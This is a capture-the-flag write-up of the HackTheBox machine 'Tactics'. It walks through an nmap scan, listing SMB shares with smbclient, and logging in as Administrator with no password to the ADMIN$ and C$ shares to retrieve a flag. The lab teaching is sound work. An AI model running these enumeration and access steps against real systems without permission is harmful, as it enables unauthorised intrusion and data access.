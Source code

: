 ```yaml
---
title: "HackTheBox - Tactics"
author: Nasrallah
description: ""
date: 2022-07-03 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, smb]
img_path: /assets/img/hackthebox/machines/tactics/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Tactics](https://app.hackthebox.com/starting-point?tier=1) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 -Pn {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

- -Pn: Treat all hosts as online -- skip host discovery. Usually for windows targets.

```terminal
Nmap scan report for 10.129.195.131 (10.129.195.131)
Host is up (0.15s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-07-27T18:39:27
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

We have a windows machine running SMB.

## SMB

We can enumerate SMB using `smbclient`. The full command is as follows:`sudo smbclient -L 10.129.195.131`

>-L: list shares.

![](1.png)

Couldn't enumerate the share and got access denied, let's try this time as user `Administrator`. `sudo smbclient -L 10.129.195.131 -U Administrator`

![](2.png)

We found 3 shares.

- IPC$ share: is also known as a null session connection. By using this session, Windows lets anonymous users perform certain activities, such as enumerating the names of domain accounts and network shares.

The other two, ADMIN$ and C$ are disk shares so we might be able to login into them.

# **Foothold**

Let's try login to the ADMIN$ share.`sudo smbclient \\\\10.129.195.131\\ADMIN$ -U Administrator`.

![](3.png)

We managed to login without a password, but this share doesn't have much use for us. The C$ share on the other hand can be very useful since it is the file system of Windows. `sudo smbclient \\\\10.129.195.131\\C$ -U Administrator`

![](4.png)

Great! We are in the c drive, to retrieve the flag, use the following command: get Users\Administrator\Desktop\flag.txt`

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).